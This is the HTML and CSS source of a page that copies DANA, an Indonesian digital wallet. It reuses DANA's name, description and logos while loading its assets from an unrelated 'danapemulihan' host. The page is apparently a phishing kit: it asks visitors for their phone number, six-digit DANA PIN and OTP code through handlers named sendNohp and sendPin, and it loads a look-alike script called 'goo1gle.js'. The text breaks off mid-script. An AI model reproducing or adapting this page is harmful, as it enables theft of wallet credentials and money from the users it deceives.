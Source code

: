 
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title></title>
<meta property="og:title" content="DANA ID">
<meta property="twitter:title" content="DANA ID ">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" property="og:image">
 <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQA-22lQk5cJ68usHbFQm_lnqlOTy6o7c3rZg&usqp=CAU" rel="apple-touch-icon">
 <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>

body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed

}
h2{font-size: 18px; }

h3{
  font-size: 14px;  
}


 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118CEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118CEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  padding: 32px;
  width: 100%;
  top: 0;
  background-color: #118CEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 79%;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;

  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;{}
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 10px;
  background-color: #118CEA;
  counter-increment: item;
  z-index: 99999999;
}

.carousel__slide:nth-child(even) {
  background-color: #118CEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118CEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118CEA;


}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;


}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;

    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;


 }

 .inp{
     width: 70%;
     padding-left: 10px;
 }


 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;

 }


 #back1{
      display: none;

 }

 #back2{
      display: none;
 }
</style>
<body>

<div style="display:none;" class="index">
  <div class="header">
    <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
  </div>
  <div class="content">
    <div class="hero">
      <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
    </div>
    <h1>Dompet digital untuk kamu!</h1>
    <p class="desc">
      Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
    <div class="line"></div>
    <p class="log">
      Masukkan <b>nomor HP</b> kamu untuk lanjut
    </p>
    <button type="button" onclick="next();">LOGIN</button>
  </div>
</div>
<div class="start" style="display:none;">
  <img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
  <div class="footimg">
    <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
    <p>
      DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
  </div>
</div>

<div class="container hid" style="position: fixed">

  <div class="" style="text-align: center;" id="homeku">



     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide1"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">


      </div>
    </li>
    <li id="carousel__slide2"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide3"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">


      </div>
    </li>

  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">

    </ol>
  </aside>
</section>
<button id="butonku" style="width: 90%; height: 189px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://user-images.githubusercontent.com/155412066/296517930-fcfc7dd0-ba64-4395-85bf-e4103927b567.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
        <div id="process" name="process" class="process" style="display: none;">
      <div class="loading">
        <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png">
        <img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
      </div>
    </div>

    <div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


      <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
    </div>
    <form id="formNohp" onsubmit="sendNohp(event);" >
         <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
      <h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
      <div class="box-input" style="width: 95%;">
        <div class="label">
          <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
        </div>
        <input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="812-3456-7890" maxlength="12" minlength="10"></div>
      <p class="desc" style="font-size: 12px; line-height: 18px; margin-top: 25px">
Nomor ponsel akan digunakan sebagai ID kamu & menjaga<br>akun selalu aman. Dengan melanjutkan, kamu setuju dengan <b>Syarat & Ketentuan dan Kebijakan Privasi</b> kami.
      </p>
      <div class="box-btn">
        <button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px">LANJUT</button>
      </div>
    </form>
    <form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
         <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
        <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
      <h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
      <div class="box-input-pin">
        <div type="button" class="clear"></div>
        <input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required"""" maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
      <button class="show" type="button">TAMPILKAN</button>
      <p class="forgot">LUPA PIN?</p>
      <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
    </form>
<div class="bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
<div class="bgotp hid"><form id="formOtp" class=""><h2>Masukan Kode OTP</h2><br><center>
        <p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 0px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>


        </center>
        <div class="box-input-otp" style="margin-top: 50px">

          <div class="loadingOtp" style="display:none;background: #fafafa">


            <img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
    </div>
    <div type="button" class="clearotp"></div>
     <input type="hidden" id="logo" value="𝐃𝐀𝐍𝐀 𝐈𝐃">
          <input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
     <p id="waktuku" class="resend" style="margin-top: 70px; spacing: 2;color: #0f78cb; font-size: 13px">
          Kirim Ulang (<span id="carasingkat" style="color: #0f78cb">60</span>s)
        </p>
       <p class="resend" style="margin-top: 70px; spacing: 2; font-weight: 600; color: #0f78cb; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">Kirim Ulang</p>


      </div>
    </div>
  </div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {

                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);

         setTimeout("countDown()", 1000);



                }
            }
            countDown();

       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

  pinContainer.addEve

